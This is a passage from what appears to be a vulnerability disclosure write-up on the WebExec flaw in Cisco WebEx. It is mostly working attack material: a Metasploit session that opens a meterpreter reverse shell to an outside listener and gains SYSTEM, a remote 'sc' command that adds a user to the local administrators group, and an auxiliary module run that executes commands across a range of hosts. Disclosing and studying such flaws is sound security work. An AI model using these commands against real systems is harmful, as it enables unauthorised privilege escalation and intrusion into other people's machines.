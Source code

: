 msf exploit(windows/local/webexec) &gt; set payload windows/meterpreter/reverse_tcp
msf exploit(windows/local/webexec) &gt; set LHOST 172.16.222.1
msf exploit(windows/local/webexec) &gt; set LPORT 9001
msf exploit(windows/local/webexec) &gt; run

[*] Started reverse TCP handler on 172.16.222.1:9001
[*] Checking service exists...
[*] Writing 73802 bytes to %SystemRoot%\Temp\yqaKLvdn.exe...
[*] Launching service...
[*] Sending stage (179779 bytes) to 172.16.222.132
[*] Meterpreter session 2 opened (172.16.222.1:9001 -&gt; 172.16.222.132:49574) at 2018-08-31 14:45:25 -0700
[*] Service started...

meterpreter &gt; getuid
Server username: NT AUTHORITY\SYSTEM
</pre>

<h2>Remote exploit</h2>

We actually spent over a week knowing about this vulnerability without realizing that it could be used remotely! The simplest exploit can still be done with the Windows <tt>sc</tt> command. Either create a session to the remote machine or create a local user with the same credentials, then run <tt>cmd.exe</tt> in the context of that user (<tt>runas /user:newuser cmd.exe</tt>). Once that's done, you can use the exact same command against the remote host:
<pre>c:\&gt;sc \\10.0.0.0 start webexservice a software-update 1 net localgroup administrators testuser /add
</pre>
The command will run (and a GUI will even pop up!) on the other machine.

<h2>Remote exploitation with Metasploit</h2>

To simplify this attack, I wrote a pair of Metasploit modules. <a href="https://github.com/iagox86/metasploit-framework-webexec/blob/master/lib/msf/core/exploit/smb/client/webexec.rb">One is an auxiliary module</a> that implements this attack to run an arbitrary command remotely, and <a href="https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/exploits/windows/smb/webexec.rb">the other is a full exploit module</a>. Both require a valid SMB account (local or domain), and both mostly depend on the <a href="https://github.com/CounterHack/webexec-metasploit/blob/cisco-webex-exploit/lib/msf/core/exploit/smb/client/webexec.rb">WebExec library</a> that I wrote.

Here is an example of using the auxiliary module to run <tt>calc</tt> on a bunch of vulnerable machines:

<pre>
msf5 &gt; use auxiliary/admin/smb/webexec_command
msf5 auxiliary(admin/smb/webexec_command) &gt; set RHOSTS 192.168.1.100-110
RHOSTS =&gt; 192.168.56.100-110
msf5 auxiliary(admin/smb/webexec_command) &gt; set SMBUser testuser
SMBUser =&gt; testuser
msf5 auxiliary(admin/smb/webexec_command) &gt; set SMBPass testuser
SMBPass =&gt; testuser
msf5 auxiliary(admin/smb/webexec_command) &gt; set COMMAND calc
COMMAND =&gt; calc
msf5 auxiliary(admin/smb/webexec_command) &gt; exploit
